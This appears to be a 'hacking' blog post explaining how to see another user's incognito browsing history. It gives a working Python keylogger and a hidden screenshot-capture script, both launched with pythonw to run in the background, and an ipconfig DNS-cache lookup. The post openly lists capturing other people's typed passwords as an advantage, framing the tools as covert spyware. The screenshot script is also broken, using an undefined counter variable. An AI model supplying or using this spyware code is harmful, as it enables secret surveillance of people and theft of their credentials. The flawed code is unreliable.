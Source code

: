 ```yaml
---
title: See Incognito Browsing History
category: hacking
tags: none
---
```


In contrast to what most people think, seeing the history from an incognito session is not impossible. Actually, it is quite easy if you do it the right way. In this post I will show you some methods to achieve this goal, some that require software and one that you can do right now.

## With software

For this section I will write some Python scripts to get the history of the browser, so I recommend you to install it from here. However, if you do not want to write your own programs, you can also download my programs’ binaries for Windows x64 (not available yet).

### Using a keylogger

One of my favorite methods involves the use of a keylogger. A keylogger is a program that records every key you press in your keyboard, so, using this type of software you can see every website that the user requested. Additionaly, you can also see the credentials typed in the computer.

Let’s start by installing required python modules. First, you need to open your terminal (if you are on Windows you only have to write ‘cmd’ on your search bar and press enter). After that, write the following lines:

```
pip install pynput
```

And press Enter. Once the module was properly installed, you can start writing the code. Create a file called keylogger.pyw and add the following lines to it:

```
from pynput.keyboard import Key,Listener

def press_key(key):
    with open('log.txt','a') as f:
        f.write(str(key) + ' ')

def release_key(key):
    if key == Key.f12:
        return False

with Listener(on_press = press_key, on_release = release_key) as listener:
    listener.join()
```

Now that the program is done you can execute it directly or by typing the following line into the terminal:

```
pythonw keylogger.pyw
```

It will run in the background and if you need to stop it simply press F12 key. The output will be saved in a file called log.txt stored in the same folder as your program.

#### Advantages

- Very precise (only few false-positives)
- Full access to passwords typed
- Low CPU load (runs smoothly)

#### Disadvantages

- Detectable by task manager
- Needs to be run before the user accesses the website

### Using a “screenshoter”

Another program that allows you so see what sites the user visited consists in taking pictures of the computer screen from time to time. So, you will get a screenshot of the site being visited by the user.

As before, we will need a specific module, so let’s start by importing it. Open your terminal and write the following in there:

```
pip install pyscreenshot
```

By the time the module is correctly installed, you can create the file screenshoter.pyw and start writing your code. Unlike the code used to make our keylogger, you must change this program to adjust to your necessities. First, you need to figure out the delay (in seconds) between the screenshots that you prefer and then add it to the code. I will use 60 (a screenshot every minute).

```
import pyscreenshot
import time

if __name__ == '__main__':
    while True:
        img = pyscreenshot.grab()
        img.save('Screenshots/screenshot' + str(num) + '.png')
        time.sleep(60) #change the value 60 to whatever you want
```

After writing the code, you must also create a folder called ‘Screenshots’ in the same directory as your program to store all the pictures taken.

You can execute your script by clicking it or by typing the following in the command line:

```
pythonw screenshoter.pyw
```

#### Advantages

- Direct access to computer screen
- Images are easily understood

#### Disadvantages

- Detectable by task manager
- Needs to be run before the user accesses the website
- Can store huge amounts of images
- The user can access a website for only a few seconds and you will not be able to see it

## Without Software

### Accessing DNS cache

What is DNS? The main function of DNS is to translate domain names into IP Addresses. So, what is DNS cache? It is the way that our computers use to temporarily store it, with the purpose of delivering the websites faster to the user.

To access it, you need to start your terminal (‘cmd’ on Windows) and type the following command into it:

```
ipconfig /displaydns
```

The result should be similar to this:

![Output](/images/incobrow1.png)

As you can see, the only part that really matters to us is the “Record Name”, so, we should implement an output filter. Let’s try the next command, which finds the record name of each entry:

```
ipconfig /displaydns | findstr /C:"Record Name"
```

![Output](/images/incobrow2.png)

Much easier to read, don’t you think? By using this command you should be able to see which sites the user has recently viewed.

#### Advantages

- No need of additional software

#### Disadvantages

- The records are temporary
- Results contain both the domain of the website viewed and the domains of all external references on the page (if you access a site that contains a image from other site, the DNS cache will store both, making it difficult to decide which is the website accessed by the user)